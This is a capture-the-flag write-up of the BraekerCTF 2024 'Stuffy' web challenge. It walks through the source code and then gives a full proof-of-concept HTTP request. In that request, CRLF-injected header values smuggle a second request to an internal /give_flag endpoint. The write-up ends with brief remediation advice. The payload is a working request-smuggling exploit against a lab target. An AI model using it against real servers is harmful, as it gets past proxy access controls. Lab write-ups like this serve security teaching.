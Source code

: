# description
This challenge is a web challenge written by spipm and part of the Braekerctf ctf. This challenge is a request smuggling. Good reading.

link: https://github.com/spipm/BraekerCTF_2024_public/tree/main

# recon
Let's start by reading the provided code. We can immediately see an SQL injection vulnerability.
![](../images/stuffy1.png)
However, we don't have control over the username. It's chosen from the provided `usernames.txt` file, which is a list of random usernames + 4 random characters.
![](../images/stuffy2.png)

So, SQLi isn't the right path.

Among all the routes, we can notice the endpoint `/give_flag`.
![](../images/stuffy3.png)
This function updates the value of "stuff" with the flag value for a user from the moment the request comes from the server itself.
We can try adding the Headers manually, but it won't work because it's the nginx proxy that modifies the headers.
So, we need to find a function that makes a request and redirect it to `/give_flag`.
Fortunately, `/set_stuff` makes a request to `/update_profile_internal`.

![](../images/stuffy4.png)
Set_stuff first retrieves our username from the cookies and checks that this user exists.
Then it retrieves the stuff variable from the request and verifies that its length is less than 200.
The `special_type` and `special_val` variables are similarly retrieved and cleaned with the `security_filter` function.
`special_type` and `special_val` become Headers, and `stuff` becomes part of the body.

So, we have control over three variables: stuff, special_val, and special_type.
The most likely path is a request smuggling. Let's try.

# POC
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Here, `special_type` and `special_val` form a header that will inform the first request (the end of aaaaaab) = Content-length: 80.
How do we find this number?

 ![](../images/stuffy5.png)
 
We just need to find the size of this string.

![](../images/stuffy6.png)

Then we create a second request. After refreshing the page, we'll have the flag in our stuff.

![](../images/stuffy7.png)


# remediation
- Ensure that the servers don't accept or process with multiple Content-length or Tranfer-Encoding.
- Use HTTP/2 because it is designed to prevent smuggling attack by clearing delineating the boundaries of HTTP messages.


# That's it!




